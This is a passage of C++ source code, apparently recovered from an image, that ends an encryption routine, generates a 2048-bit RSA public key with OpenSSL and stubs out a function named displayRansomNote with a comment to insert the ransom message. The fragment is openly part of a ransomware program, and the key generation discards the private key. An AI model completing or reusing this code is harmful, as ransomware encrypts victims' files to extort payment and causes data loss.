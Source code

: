 ```cpp
        encryptedFile.close();

    }



    delete[] encryptedData;

}



std::string generatePublicKey()

{

    RSA* rsa = RSA_new();

    BIGNUM* e = BN_new();

    BN_set_word(e, RSA_F4);



    RSA_generate_key_ex(rsa, 2048, e, nullptr);

    BIO* bio = BIO_new(BIO_s_mem());

    PEM_write_bio_RSAPublicKey(bio, rsa);

    

    char* publicKey;

    long len = BIO_get_mem_data(bio, &publicKey);

    std::string publicKeyString(publicKey, len);



    BIO_free_all(bio);

    RSA_free(rsa);

    BN_free(e);



    return publicKeyString;

}



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}


```